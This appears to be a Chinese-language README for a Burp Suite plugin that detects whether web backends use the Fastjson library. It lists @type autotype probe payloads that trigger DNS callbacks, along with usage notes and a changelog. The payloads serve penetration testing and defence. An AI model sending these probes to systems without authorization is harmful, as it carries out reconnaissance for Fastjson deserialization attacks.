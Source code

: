 # Fastjson-Scanner

闲来无事，在家写了个fastjson后端组件探测，用于探测后端是否使用fastjson。

使用的poc如下：

```
            '''{"rand":{"@type":"hello","val":"''',
            """{"rand":{"@type":"java.net.InetAddress","val":"dnslog"}}""",
            """{"rand":{"@type":"java.net.Inet4Address","val":"dnslog"}}""",
            """{"rand":{"@type":"java.net.Inet6Address","val":"dnslog"}}""",
            """{"rand":{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}}""",
            """{"rand":{"@type":"java.net.URL","val":"http://dnslog"}}""",
            """{"rand":{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://dnslog"}}""}}""",
            """{"rand":Set[{"@type":"java.net.URL","val":"http://dnslog"}]}""",
            """{"rand":Set[{"@type":"java.net.URL","val":"http://dnslog"}""",
            """{"rand":{"@type":"java.net.URL","val":"http://dnslog"}:0""",
```

### 优点

不仅能够探测POST中的json数据，还能够判断GET中的json数据，支持urlencode、urldecode等。

两种数据对应格式如下：

GET：

```
GET /?json={"fastjson":"example"}
```

POST：

```
POST /

...


{"fastjson":"example"}
```

### 使用方法

导入插件即可默认开始使用，对数据包进行被动扫描，由于使用的是burp自带的dnslog，所以稍微会有电脑延时，代码里写了sleep 10来获取result。


![first](https://s1.ax1x.com/2020/03/29/GEalbF.png)

当导入数据包后，在burp内可以看到FastjsonScanner这个窗口，代表导入成功，当探测成功后，会在其中显示对应的数据包以及参数：

![image](https://user-images.githubusercontent.com/14137698/86531657-b7e93380-bef5-11ea-91b7-3f4a87929694.png)

![image](https://user-images.githubusercontent.com/14137698/86531663-c9cad680-bef5-11ea-95f7-c57bd665d5ff.png)

![image](https://user-images.githubusercontent.com/14137698/86531675-dfd89700-bef5-11ea-9987-46ee6c08efda.png)



### 修改记录

1. 所有的payload进行打印

2. 增加多个检测的payload

3. 输出检测结果

4. 在某些场景下强行改变get为post请求

5. 添加一个报错的模式
